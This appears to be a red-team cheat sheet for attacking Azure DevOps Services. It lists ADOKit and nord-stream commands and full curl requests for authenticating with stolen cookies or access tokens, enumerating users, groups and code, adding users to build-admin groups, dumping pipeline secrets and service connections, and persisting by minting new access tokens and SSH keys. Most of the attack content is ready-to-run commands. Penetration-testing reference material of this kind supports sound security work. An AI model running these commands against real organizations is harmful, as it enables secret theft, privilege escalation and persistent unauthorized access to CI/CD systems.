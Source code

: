 # Azure Services - Azure DevOps

* [xforcered/ADOKit](https://github.com/xforcered/ADOKit) - Azure DevOps Services Attack Toolkit
* [synacktiv/nord-stream](https://github.com/synacktiv/nord-stream) - Nord Stream is a tool that allows you to extract secrets stored inside CI/CD environments by deploying malicious pipelines. It currently supports Azure DevOps, GitHub and GitLab.
    ```ps1
    # List all secrets from all projects
    $ nord-stream.py devops --token "$PAT" --org myorg --list-secrets

    # Dump all secrets from all projects
    $ nord-stream.py devops --token "$PAT" --org myorg
    ```

## Authentication

You can access an organization's Azure DevOps Services instance via https://dev.azure.com/{yourorganization}. 

* Username and Password
* Authentication Cookie `UserAuthentication`: `ADOKit.exe whoami /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization`
* Personal Access Token (PAT): `ADOKit.exe whoami /credential:patToken /url:https://dev.azure.com/YourOrganization`
    ```ps1
    PAT="XXXXXXXXXXX"
    organization="YOURORGANIZATION"
    curl -u :${PAT} https://dev.azure.com/${organization}/_apis/build-release/builds
    ```


## Recon

* Search files: `file:FileNameToSearch`, `file:Test* OR file:azure-pipelines*`
  ```ps1
  curl -i -s -k -X $'GET'
  -H $'Content-Type: application/json'
  -H $'User-Agent: SOME_USER_AGENT'
  -H $'Authorization: Basic BASE64ENCODEDPAT'
  -H $'Host: dev.azure.com'
  $'https://dev.azure.com/YOURORGANIZATION/PROJECTNAME/_apis/git/repositories/REPOSITORYID/items?recursionLevel=Full&api-version=7.0'
  ```

* Search code: `ADOKit.exe searchcode /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /search:"search term"`
  ```ps1
  curl -i -s -k -X $'POST'
  -H $'Content-Type: application/json'
  -H $'User-Agent: SOME_USER_AGENT'
  -H $'Authorization: Basic BASE64ENCODEDPAT'
  -H $'Host: almsearch.dev.azure.com'
  -H $'Content-Length: 85'
  -H $'Expect: 100-continue'
  -H $'Connection: close'
  --data-binary $'{\"searchText\": \"SEARCHTERM\", \"skipResults\":0,\"takeResults\":1000,\"isInstantSearch\":true}' 
  $'https://almsearch.dev.azure.com/YOURORGANIZATION/_apis/search/codeAdvancedQueryResults?api-version=7.0-preview'
  ```

* Enumerate users
  ```ps1
  curl -i -s -k -X $'GET'
  -H $'Content-Type: application/json'
  -H $'User-Agent: SOME_USER_AGENT'
  -H $'Authorization: Basic BASE64ENCODEDPAT'
  -H $'Host: dev.azure.com'
  $'https://dev.azure.com/YOURORGANIZATION/_apis/graph/users?api-version=7.0'
  ```

* Enumerate groups: `ADOKit.exe getgroupmembers /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /group:"search term"`
  ```ps1
  curl -i -s -k -X $'GET'
  -H $'Content-Type: application/json'
  -H $'User-Agent: SOME_USER_AGENT'
  -H $'Authorization: Basic BASE64ENCODEDPAT'
  -H $'Host: dev.azure.com'
  $'https://dev.azure.com/YOURORGANIZATION/_apis/graph/groups?api-version=7.0'
  ```

* Enumerate project permissions: `ADOKit.exe getpermissions /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /project:"project name"`


## Privilege Escalation

* Adding User to Group: `ADOKit.exe addcollectionbuildadmin /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /user:"username"` 
    ```ps1
    curl -i -s -k -X $'PUT'
    -H $'Content-Type: application/json'
    -H $'User-Agent: Some User Agent'
    -H $'Authorization: Basic base64EncodedPAT'
    -H $'Host: vssps.dev.azure.com'
    -H $'Content-Length: 0'
    $'https://vssps.dev.azure.com/YourOrganization/_apis/graph/memberships/userDescriptor/groupDescriptor?api-version=7.0-preview.1'
    ```

* Retrieve build variables and secrets: `ADOKit.exe getpipelinevars /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /project:"project name"`, `ADOKit.exe getpipelinesecrets /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /project:"project name"`
    ```ps1
    curl -i -s -k -X $'GET'
    -H $'Content-Type: application/json'
    -H $'User-Agent: Some User Agent'
    -H $'Authorization: Basic base64EncodedPAT'
    -H $'Host: dev.azure.com'
    $'https://dev.azure.com/YourOrganization/ProjectName/_apis/build/Definitions/DefinitionIDNumber?api-version=7.0'
    ```

* Retrieve Service Connection Information: `ADOKit.exe getserviceconnections /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /project:"project name"`
    ```ps1
    curl -i -s -k -X $'GET'
    -H $'Content-Type: application/json;api-version=5.0-preview.1'
    -H $'User-Agent: Some User Agent'
    -H $'Authorization: Basic base64EncodedPAT'
    -H $'Host: dev.azure.com'
    $'https://dev.azure.com/YourOrganization/YourProject/_apis/serviceendpoint/endpoints?api-version=7.0'
    ```


## Persistence

* Create a PAT: `ADOKit.exe createpat /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization`
    ```ps1
    curl -i -s -k -X $'POST'
    -H $'Content-Type: application/json'
    -H $'Accept: application/json;api-version=5.0-preview.1'
    -H $'User-Agent: Some User Agent'
    -H $'Host: dev.azure.com'
    -H $'Content-Length: 234'
    -H $'Expect: 100-continue'
    -b $'X-VSS-UseRequestRouting=True; UserAuthentication=stolenCookie'
    --data-binary $'{\"contributionIds\":[\"ms.vss-token-web.personal-accesstoken-issue-session-tokenprovider\"],\"dataProviderContext\":{\"properties\":{\"displayName\":\"PATName\",\"validTo\":\"YYYY-MMDDT00:00:00.000Z\",\"scope\":\"app_token\",\"targetAccounts\":[]}}}}}'
    $'https://dev.azure.com/YourOrganization/_apis/Contribution/HierarchyQuery'
    ```

* Create SSH Keys: `ADOKit.exe createsshkey /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /sshkey:"ssh pub key"`
    ```ps1
    curl -i -s -k -X $'POST'
    -H $'Content-Type: application/json'
    -H $'Accept: application/json;api-version=5.0-preview.1'
    -H $'User-Agent: Some User Agent'
    -H $'Host: dev.azure.com'
    -H $'Content-Length: 856'
    -H $'Expect: 100-continue'
    -b $'X-VSS-UseRequestRouting=True; UserAuthentication=stolenCookie'
    --data-binary $'{\"contributionIds\":[\"ms.vss-token-web.personal-accesstoken-issue-session-tokenprovider\"],\"dataProviderContext\":{\"properties\":{\"displayName\":\"SSHKeyName\",\"publicData\":\"public SSH key content\",\"validTo\":\"YYYY-MMDDT00:00:00.000Z\",\"scope\":\"app_token\",\"isPublic\":true,\"targetAccounts\":[\"organizationID\"]}}}}}'
    $'https://dev.azure.com/YourOrganization/_apis/Contribution/HierarchyQuery'
    ```


## References

* [Hiding in the Clouds: Abusing Azure DevOps Services to Bypass Microsoft Sentinel Analytic Rules - Brett Hawkins - November 6, 2023](https://www.ibm.com/downloads/cas/5JKAPVYD)
* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)